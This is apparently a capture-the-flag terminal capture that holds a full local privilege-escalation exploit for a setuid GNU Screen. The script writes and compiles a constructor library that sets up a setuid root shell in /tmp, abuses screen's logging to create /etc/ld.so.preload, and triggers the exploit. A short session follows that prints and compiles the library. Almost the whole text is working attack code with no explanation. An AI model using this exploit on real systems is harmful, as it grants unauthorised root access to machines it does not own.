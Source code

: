 echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...


ramen@foodctf:/tmp$ cat libhax.c

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
ramen@foodctf:/tmp$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:8:5: warning: implicit declaration of function ‘chmod’; did you mean ‘chroot’? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
